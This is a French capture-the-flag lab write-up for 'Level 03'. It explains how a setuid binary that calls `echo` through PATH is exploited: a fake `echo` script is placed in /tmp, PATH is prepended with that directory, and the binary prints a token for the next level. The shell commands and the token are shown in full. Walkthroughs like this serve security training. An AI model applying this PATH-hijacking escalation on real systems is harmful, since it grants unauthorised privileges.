 # Level 03

Dans le home de `level03` on remarque qu'il existe un binaire nommé `level03`, en executant la commande `ls -la` on peut voir que le binaire s'exécute avec les droits de l'owner c'est à dire `flag03`

```sh
~ ls -la
total 24
dr-x------ 1 level03 level03  120 Mar  5  2016 .
d--x--x--x 1 root    users    340 Aug 30  2015 ..
-r-x------ 1 level03 level03  220 Apr  3  2012 .bash_logout
-r-x------ 1 level03 level03 3518 Aug 30  2015 .bashrc
-r-x------ 1 level03 level03  675 Apr  3  2012 .profile
-rwsr-sr-x 1 flag03  level03 8627 Mar  5  2016 level03
```

Quand on lance le binaire, il écrit sur l'entrée standart `Exploit me`, on comprend alors qu'il faut faire du reverse ingénierie.

```sh
~ ./level03
Exploit me
```

On l'as décompiler avec [ghidra](https://ghidra-sre.org/) pour une meilleure visibilité car il décompile en `ASM` et traduit l'`ASM` en pseudo-code `C`. (Ici le screenshot sera que du pseudo-code `C`)

![Pseudo Code C du binaire Level03](../../assets/level03-ghidra-c.png)

On peux voir qu'il utilise l'enviromnent pour appeler `echo`, on as donc crée un dossier `myPath` dans `/tmp` avec un script bash appeler `echo` qui appel la commande `getflag`.

```shell
~ mkdir /tmp/myPath
~ scp -P 4242 echo level03@192.168.56.101:/tmp/myPath
level03@192.168.56.101 s password:
echo                                            100%   25    33.6KB/s   00:00
~ chmod 777 /tmp/myPath/echo
~ export PATH=/tmp/myPath:$PATH
~ ./level03
Check flag.Here is your token : qi0maab88jeaj46qoumi7maus
~ su level04
Password:
```
